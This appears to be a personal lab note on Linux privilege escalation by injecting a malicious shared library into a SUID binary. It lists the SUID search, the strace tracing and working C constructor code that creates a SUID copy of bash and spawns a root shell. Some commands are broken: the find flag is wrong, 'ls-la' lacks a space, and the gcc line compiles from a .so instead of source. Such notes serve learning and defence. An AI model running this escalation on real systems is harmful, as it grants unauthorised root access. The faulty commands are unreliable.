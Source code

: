 This technique is more advanced. 

The idea is to force a program to charge a malicious `.so` library during the execution in order to execute our code.

The program must:
1. have the `SUID` set 
2. charge libraries dinamically

# Search for vulnerable program 

First of all we need to execute:
```bash
find / -type -f -perm -04000 -ls 2>/dev/null
```
- ![[Pasted image 20250117114218.png]]

In this case we will look at this `suid-so`


If we analyze it we can see:
```bash
ls-la /usr/local/bin/suid-so
```
- ![[Pasted image 20250117114348.png]]


Now we must see what it does:
```bash
/usr/local/bin/suid-so
```
- ![[Pasted image 20250117114433.png]]
- It seems to do nothing but we can use it

# Using strace to understand what it does

We can use `strace` to look at the instruction it executes:
```bash
strace /usr/local/bin/suid-so 2>&1
```

As we can see it accesses to a lot of files:
- ![[Pasted image 20250117114703.png]]


To have a better view we can run:
```bash
strace /usr/local/bin/suid-so 2>&1 | grep -i -E "open|access|no such file"
```
- `-i` makes key insensitive
- `-E` allows regular expressions
- `"open|access|no such file"` searchses for at list of that
- ![[Pasted image 20250117114948.png]]


In our case it is very interesting:
- ![[Pasted image 20250117115024.png]]
- so we try to overwrite it becuase we can access `/home/user`


# Write injection

We can try to write this code to inject:
```c
#include <stdio.h>
#include <stdlib.h>

static void inject() __attribute__((constructor));

void inject(){
	system("cp /bin/bash /tmp/bash && chmod +s /tmp/bash && /tmp/bash -p");
}
```


The part:
- `cp /bin/bash /tmp/bash` copies the bash binary in `/tmp` that is accessible by normal users
- `chmod +s /tmp/bash` sets the `SUID` bit so when it is executed it gets the owner privileges (root here)
- `/tmp/bash -p` runs the bash with the root privilege here


So we create a `.config` folder:
```bash
mkdir /home/user/.config
```


We compile it:
```bash
gcc -shared -fPIC -o /home/user/.config/libcalc.so /home/user/libcalc.so
```

At this point we run again the initial program:
```bahs
/usr/local/bin/suid-so
```
- ![[Pasted image 20250117120005.png]]

<mark style="background: #BBFABBA6;">And we gain root access!</mark>